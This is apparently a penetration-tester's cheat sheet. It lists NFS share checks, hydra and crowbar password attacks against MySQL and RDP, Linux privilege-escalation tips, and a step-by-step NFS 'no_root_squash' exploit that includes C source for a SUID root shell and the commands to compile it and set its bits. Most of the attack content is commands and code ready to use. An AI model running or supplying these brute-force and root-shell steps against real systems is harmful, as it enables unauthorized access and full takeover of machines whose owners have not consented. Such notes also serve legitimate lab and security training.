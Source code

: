 ### NFS

showmount -e -- Check shares

### MySQL

use hydra with `rockyou.txt` and with `root` as the user for a less complicated password attack

### RDP

Password attacks using Crowbar

```
crowbar -b rdp -s 10.11.1.0/24 -U ../usernames.txt -C ../passwords.txt -n 1 -d
```

## Linux Privilege Escalation

* [Linux Privilege Escalation Techniques](https://www.linkedin.com/pulse/linux-privilege-escalation-techniques-zakwan-abid/?trackingId=yCGYGnnzQ2WigibM4Wip5A%3D%3D)
* [Restricted Shells](https://0xffsec.com/handbook/shells/restricted-shells/)
  * echo os.system("/bin/bash")
* [Docker Breakout Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation)
* [S1REN Priv esc](https://sirensecurity.io/blog/linux-privilege-escalation-resources/)
* check config.php for password reuse grep -rpci 'pass'
* root password as root
* run `sudo -l` to see what you can run with sudo
* ./linpeas.sh -q -e -a

### Exploit network file sharing

configuration is kept in the /etc/exports file. privilege escalation vector is the “no\_root\_squash”. If the “no\_root\_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

* cat /etc/exports - list shares on victim machine
* mkdir /tmp/victimnfs - create tmp directory on attacker machine
* mount -o rw victimIP:/home/backup /tmp/victimnfs - mount the victim network file share that has 'no\_root\_squash'
* create shell with suid bits

```
int main()
{
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

* gcc rootz.c -o rootz -w
* chmod +s rootz
* going back to victim machine execute the suid bit shell to gain root
